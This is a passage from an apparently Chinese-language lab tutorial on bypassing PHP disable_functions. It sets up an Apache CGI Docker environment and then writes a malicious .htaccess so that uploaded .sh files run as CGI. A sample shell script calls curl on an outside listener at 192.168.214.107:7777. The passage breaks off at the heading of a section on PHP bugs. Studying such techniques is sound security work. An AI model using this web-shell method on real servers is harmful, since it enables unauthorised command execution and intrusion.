 `docker pull bronsonbdevost/cgi-web-server`

默认 cgi 目录在 /usr/local/apache2/cgi-bin，配置文件位于 /usr/local/apache2/conf/httpd.conf

默认没有 PHP，安装

`apt-get install php5-common libapache2-mod-php5`

安装 libsqlite3-0 404 的话可以到网站下载

[https://packages.debian.org/zh-cn/jessie/amd64/libsqlite3-0/download](https://packages.debian.org/zh-cn/jessie/amd64/libsqlite3-0/download)

```
wget http://security.debian.org/debian-security/pool/updates/main/s/sqlite3/libsqlite3-0_3.8.7.1-1+deb8u4_amd64.deb

dpkg -i libsqlite3-0_3.8.7.1-1+deb8u4_amd64.deb
```

添加 php5 模块配置文件

`cp /etc/apache2/mods-available/php5.conf.dpkg-new conf/extra/php5_module.conf`

修改 httpd.conf

```
AddHandler php5-script php
LoadModule php5_module /usr/lib/apache2/modules/libphp5.so

Include conf/extra/php5_module.conf
```

重启 Apache

`/usr/local/apache2/bin/apachectl restart`

模拟写入恶意 .htaccess 文件，添加后缀 .sh

```
Options +ExecCGI
AddHandler cgi-script .sh
```

上传 sh 文件，浏览器访问即可执行其中的命令

```
#!/bin/bash
echo "Content-type: text/html"
echo "Hello, Shell"
curl 192.168.214.107:7777
```

[![](https://p5.ssl.qhimg.com/t01358227b7eb49edce.png)](https://p5.ssl.qhimg.com/t01358227b7eb49edce.png)

### <a class="reference-link" name="10.%20%E5%88%A9%E7%94%A8%20PHP%20bug%20Bypass%20disable_functions"></a>10. 利用 PHP bug Bypass disable_functions

利用两个 PHP 历史漏洞来绕过 disable_functions
